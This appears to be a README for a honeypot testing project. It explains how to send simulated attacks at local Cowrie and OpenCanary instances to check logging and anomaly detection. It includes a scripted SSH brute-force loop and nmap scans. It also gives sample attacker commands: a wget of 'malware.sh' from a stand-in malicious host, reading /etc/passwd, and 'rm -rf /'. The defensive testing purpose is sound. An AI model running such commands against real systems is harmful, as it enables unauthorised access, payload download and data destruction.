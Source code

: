 # Simulating Attacks for Honeypot Testing

This README explains how to simulate attacks against your honeypot system to test detection, logging, and anomaly detection. These attacks are fake (local or scripted), but they trigger the same logic as a real attacker would. This helps test everything from log parsing to anomaly flagging.

---

##
Requirements

Before simulating, make sure:

- Cowrie is running (SSH honeypot)
- OpenCanary is running (multi-protocol honeypot)
- Flask backend is up (to capture and display logs)
- Anomaly detection code is active
- SQLite DB is properly storing logs

---

## Simulating SSH Login Attacks (Cowrie)

You can simulate a brute-force SSH attack by making fake login attempts to the Cowrie SSH port (usually 2222 or 2223).

### 1. Terminal Login Attempts

```bash
ssh root@localhost -p 2222
```

- Try multiple usernames and passwords (can be random).
- Each attempt gets logged by Cowrie and sent to the backend.

Do this a few times quickly to simulate a brute-force scenario.

### 2. Looping Login Attempts (Fake Brute Force)

```bash
for i in {1..20}; do
  sshpass -p "wrongpass$i" ssh user$i@localhost -p 2222 -o StrictHostKeyChecking=no
done
```

> **Note**: `sshpass` may need to be installed. This simulates fast, automated login failures.

---

## Simulating OpenCanary Probes

OpenCanary listens for fake services. You can simulate scans or basic connections.

### 1. FTP Scan

```bash
ftp localhost
```

Or try connecting with `telnet localhost 21`.

### 2. HTTP Probe

```bash
curl http://localhost:80
```

### 3. MySQL/Redis Port Scan

Use `nmap` or a browser-based scan tool.

```bash
nmap -sV -p 3306,6379 localhost
```

This mimics attackers scanning for services.

---

## 🛠️ Simulating Custom Commands (Cowrie Shell)

After logging into the honeypot SSH, run:

```bash
wget http://malicious.site/malware.sh
cat /etc/passwd
ls -la /var/www
```

These mimic attacker behaviour. Cowrie logs the session, commands, and flags anomalies based on command length, structure, and frequency.

---

## Simulated Anomalies via Web Form (Optional)

If you implemented the simulated web interface for test attacks:

1. Go to `http://localhost:5000/simulate`
2. Enter:
   - Fake usernames/passwords
   - Fake commands like `rm -rf /` or `sudo wget ...`
3. These are posted to your backend just like real logs

Useful for testing your frontend detection + UI flow.

---

## What to Watch

- Flask terminal should show logs and parsed output
- Anomalies get saved in SQLite with `is_anomaly = True`
- You can view flags via the Flask dashboard
- You’ll see patterns like:
  - High login attempt frequency
  - Entropy in IPs or credentials
  - Unusual command sequences

---

## Simulate Spoofed IPs (Advanced)

To simulate fake or random IPs, modify test script to post directly to the API with fake source IPs.

```bash
curl -X POST http://localhost:5000/api/fake-log \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "123456", "src_ip": "101.23.45.66"}'
```

Rotate IPs in a script loop to simulate a botnet-style attack.

---

## Confirming Detection

Check database:

```bash
sqlite3 cowrie_events.db
SELECT * FROM events WHERE is_anomaly = 1;
```

Check your Flask dashboard for spikes in anomaly count or red flags.

---
